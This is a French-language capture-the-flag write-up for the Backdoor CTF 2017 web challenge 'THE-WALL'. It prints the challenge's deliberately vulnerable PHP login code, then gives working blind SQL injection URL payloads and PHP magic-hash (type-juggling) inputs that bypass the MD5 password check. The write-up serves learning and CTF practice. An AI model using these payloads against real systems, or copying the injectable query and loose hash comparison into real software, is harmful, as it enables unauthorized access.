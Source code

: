 Backdoor CTF 2017: THE-WALL
-------

**Catégorie**: Web **Points**: 100 **Description**:

> Night king needs the secret flag to destroy the wall. Help night king get flag from Lord Commander so that army of dead can kill the living
http://163.172.176.29/WALL


Write up
-------

Dans un premier temps en cliquant sur le lien on arrive sur la page http://163.172.176.29/WALL/login.html

On va commencer par regarder le code source de la page voir s'il n'y a pas d'indices:

```html
    <html>
    <head>
    <title>The Wall</title>
    </head>
    <body>
    <form action="index.php" method="POST">
    Username:<input type="text" name="life" /><br>
    Password:<input type="password" name="soul" /><br>
    <input type="submit">
    </form>
    <br>
    Here is the source of <a href="source.php">index.php</a>
    </body>
    </html>
```

On sait maintenant qu'il y a "life" et "soul" envoyés en POST sur la page "index.php".

Maintenant on va regarder la source de la page "index.php" en cliquant sur le lien hypertexte:

```php
    <html>
    <head>
    <title>The Wall</title>
    </head>
    <body>
    <?php
    include 'flag.php';
    if(isset($_REQUEST['life'])&&isset($_REQUEST['soul'])){
        $username = $_REQUEST['life'];
        $password = $_REQUEST['soul'];
        if(!(is_string($username)&&is_string($password))){
            header( "refresh:1;url=login.html");
            die("You are not allowed south of wall");
        }
        $password = md5($password);
        include 'connection.php';
        /*CREATE TABLE IF NOT EXISTS users(id INTEGER PRIMARY KEY AUTOINCREMENT,username TEXT,password TEXT,role TEXT)*/
        $message = "";
        if(preg_match('/(union|\|)/i', $username)){
            $message="Dead work alone not in UNIONs"."</br>";
            echo $message;
            die();
        }
        $query = "SELECT * FROM users WHERE username='$username'";
        $result = $pdo->query($query);
        $users = $result->fetchArray(SQLITE3_ASSOC);
        if($users) {
            if($password == $users['password']){
                if($users['role']=="admin"){
                    echo "Here is your flag: $flag";
                }elseif($users['role']=="normal"){
                    $message = "Welcome, ".$users['users']."</br>";
                    $message.= "Unfortunately, only Lord Commander can access flag";
                }else{
                    $message = "What did you do?";
                }
            }
            else{
                $message = "Wrong identity for : ".$users['username'];
            }
        }
        else{
            $message = "No such person exists"."<br>";
        }
        echo $message;
    }else{
        header( "refresh:1;url=login.html");
        die("Only living can cross The Wall");
    }
    ?>
    </body>
    </html>
```

De cette façon on apprend plusieurs choses:

* Les deux champs ne peuvent pas être vides, et on peut envoyer notre "username" et notre "password" en GET car on a "$_REQUEST"
    ```php
        if(isset($_REQUEST['life'])&&isset($_REQUEST['soul'])){
            $username = $_REQUEST['life'];
            $password = $_REQUEST['soul'];
    ```
* Le hash du mot de passe est md5 (sa taille est donc de 32 caractères)
    ```php
        $password = md5($password);
    ```
* On sait que la table est "users" et que les colonnes sont: id, username, password, role
    ```php
        /*CREATE TABLE IF NOT EXISTS users(id INTEGER PRIMARY KEY AUTOINCREMENT,username TEXT,password TEXT,role TEXT)*/
    ```
* On ne pourra pas faire d'union
    ```php
        if(preg_match('/(union|\|)/i', $username)){
            $message="Dead work alone not in UNIONs"."</br>";
            echo $message;
            die();
        }
    ```
* Il y a une injection sql sur username
    ```php
        $query = "SELECT * FROM users WHERE username='$username'";
        $result = $pdo->query($query);
    ```

On va pouvoir commencer notre blind SQLI en récupérant dans un premier temps le pseudo de l'administrateur:

```
   http://163.172.176.29/WALL/index.php?soul=tt&life=' OR role='admin' -- '
```

Bingo ! On obtient le nom d'utilisateur qui est "LordCommander" (comme c'est bizarre).

Maintenant on va commencer par récupérer le mot de passe à la main (comme on est noob) avec des valeurs numérique (on commence par zéro):

```
    http://163.172.176.29/WALL/index.php?soul=tt&life=LordCommander' AND password like '0%' -- '
```

On a un résultat positif et si le mot de passe commence par 0e on aurait un bug sur du type juggling et c'est logique avec:

```php
    $password = md5($password);
```

On test donc avec "0e":

```
    http://163.172.176.29/WALL/index.php?soul=tt&life=LordCommander' AND password like '0e%' -- '
```

C'est encore gagné ! On a beaucoup de chance aujourd'hui !
On va maintenant pouvoir tester avec un mot de passe qui en md5 commence par "0e" et qui retourne vrai pour:

```php
    if($password == $users['password'])
```

Voici des mots qui fonctionnent:

```
    240610708
    QNKCDZO
    aabg7XSs
```

On envoi donc notre combinaison nom d'utilisateur et mot de passe:

```php
    http://163.172.176.29/WALL/index.php?soul=QNKCDZO&life=LordCommander
```
Bim ! On a le flag qui s'affiche et on gagne 100 points.
<p align="center">
<img src="https://github.com/Inshallhack/Write-ups/blob/master/BackdoorCTF-2017/THE-WALL/images/snow.jpeg">
</p>
